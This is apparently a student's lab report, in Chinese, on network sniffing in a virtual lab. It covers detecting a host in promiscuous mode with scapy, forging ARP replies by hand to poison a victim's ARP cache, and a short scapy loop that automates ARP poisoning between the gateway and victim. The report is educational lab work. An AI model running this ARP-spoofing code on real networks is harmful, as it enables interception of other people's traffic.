










# 网络监听

## 实验要求

- [x] 实验一：检测局域网中的异常终端
- [x] 实验二：手工单步“毒化”目标主机的 ARP 缓存
- [ ] 实验三（可选）：使用自动化工具完成 ARP 投毒劫持实验
- [x] 实验四（可选）：基于 scapy 编写 ARP 投毒劫持工具探索型实验；

## 实验环境

#### 网络拓扑



#### 网络配置

* 网关：
  * 172.16.222.1
  * 08:00:27:36:d3:2a  /  enp0s10
  * 
* 攻击者：
  * 172.16.222.111
  * 08:00:27:0e:34:8d  /  eth0
  * 
* 受害者：
  * 172.16.222.101
  * 08:00:27:1d:d1:d3  /  enp0s3
  * 

#### 实验前准备

在攻击者主机上安装scapy（Linux）

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

## 实验过程

### 实验一：检测局域网中的异常终端

检查受害者主机是否开启混杂模式，需要注意的是，结果中并没有PROMISC字符串

```bash
ip link show enp0s3
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
     link/ether 08:00:27:1d:d1:d3 brd ff:ff:ff:ff:ff:ff
```

在攻击者主机上进入scapy，并在 scapy 的交互式终端输入以下代码回车执行

```python
pkt = promiscping("172.16.222.101")
```

> promiscping的作用是：Send ARP who-has requests to determine which hosts are in promiscuous mode，即发送ARP请求以确定哪些主机处于混杂模式

​	此时的输出结果为下所示

```python
>>> pkt = promiscping("172.16.222.101")
---------------------------------------------------------------------------
PermissionError                           Traceback (most recent call last)
<ipython-input-1-13d733bc8cc2> in <module>
----> 1 pkt = promiscping("172.16.222.101")

/usr/lib/python3/dist-packages/scapy/layers/l2.py in promiscping(net, timeout, fake_bcast, **kargs)                                                       
    670     """Send ARP who-has requests to determine which hosts are in promiscuous mode
    671     promiscping(net, iface=conf.iface)"""
--> 672     ans, unans = srp(Ether(dst=fake_bcast) / ARP(pdst=net),
    673                      filter="arp and arp[7] = 2", timeout=timeout, iface_hint=net, **kargs)  # noqa: E501
    674     ans = ARPingResult(ans.res, name="PROMISCPing")

/usr/lib/python3/dist-packages/scapy/sendrecv.py in srp(x, promisc, iface, iface_hint, filter, nofilter, type, *args, **kargs)                            
    550     if iface is None and iface_hint is not None:
    551         iface = conf.route.route(iface_hint)[0]
--> 552     s = conf.L2socket(promisc=promisc, iface=iface,
    553                       filter=filter, nofilter=nofilter, type=type)   
    554     result = sndrcv(s, x, *args, **kargs)

/usr/lib/python3/dist-packages/scapy/arch/linux.py in __init__(self, iface, type, promisc, filter, nofilter, monitor)                                     
    396                 "The 'monitor' argument has no effect on native linux sockets."                                                                   
    397             )
--> 398         self.ins = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(type))  # noqa: E501
    399         if not nofilter:
    400             if conf.except_filter:

/usr/lib/python3.9/socket.py in __init__(self, family, type, proto, fileno)
    230             if proto == -1:
    231                 proto = 0
--> 232         _socket.socket.__init__(self, family, type, proto, fileno)
    233         self._io_refs = 0
    234         self._closed = False

PermissionError: [Errno 1] Operation not permitted
```

显然这是错误的，查询师姐资料得知此操作需要root权限，退出scapy并`sudo scapy`进入，重新键入代码得到结果：

```python
>>> pkt = promiscping("172.16.222.101")
Begin emission:
Finished sending 1 packets.

Received 0 packets, got 0 answers, remaining 1 packets
```

此时，回到受害者主机上，输入以下代码启动网卡混杂模式，并再次重复第一步确认是否开启成功：

```bash
sudo ip link set enp0s3 promisc on
```



如图，成功开启受害者主机网卡的混杂模式。让我们回到攻击者主机上的 scapy 交互式终端继续执行命令，观察两次命令的输出结果差异。

```python
>>> pkt = promiscping("172.16.222.101")
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
  08:00:27:1d:d1:d3 PcsCompu 172.16.222.101
```

很显然，在受害者主机上打开网卡混杂模式后，攻击者的promiscping操作得到了正常的回应，返回结果是受害者主机的MAC地址和IP地址。

在受害者主机上用`sudo ip link set enp0s3 promisc off`命令来手动关闭该网卡的「混杂模式」。


### 实验二 手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```



```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
# 结果
# >>> recved = srp(arpbroadcast, timeout=2)
# Begin emission:
# Finished sending 1 packets.
# *
# Received 1 packets, got 1 answers, remaining 0 packets

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.101
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.101", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

如下图：



此时在受害者主机上查看 ARP 缓存，发现靶机并没有任何变化，按道理来说应该成功毒化了才对。在靶机上用`tcpdump`进行抓包实验，发现根本什么都收不到



查询师姐经验，尝试将sendp改为send，成功收到ARP包



同样在师姐的实验报告中可以得知，虽然受害者主机立刻就有了反应，但检查ARP目录仍发现投毒失败。立即再次在攻击者主机上发送投毒包，来受害者主机上查看，一段时间内受害者主机被成功毒化，但是一段时间后MAC地址又会变为正常，推测可能是Debian系统每隔一段时间就会在后台向网关确定MAC地址是否有变化的缘故


### 实验四 基于scapy编写 ARP 投毒劫持工具探索型实验

以下代码在攻击者主机中的scapy交互环境中使用

```python
# 投毒
def trick(gm,vm): # gm为网关IP地址，vm为受害者主机IP地址
    send(ARP(op="who-has", pdst=vm, psrc=gm))
    send(ARP(op="who-has", pdst=gm, psrc=vm))

# 主体函数
def do_now():
    for x in range(0,100):
        trick("172.16.222.1","172.16.222.101")
        time.sleep(0.1) # 每0.1秒发一次
        
do_now()
```



​	如上图，执行自动化脚本后成功投毒。


### 参考链接

- [ARP Cache Poisoning using Scapy](https://medium.datadriveninvestor.com/arp-cache-poisoning-using-scapy-d6711ecbe112) 
- [Linux操作系统中删除ARP缓存的命令](https://cloud.tencent.com/developer/article/1009956?from=14588)
- [Lychee](https://github.com/CUCCS/2021-ns-public-Lychee00/tree/chap0x04)
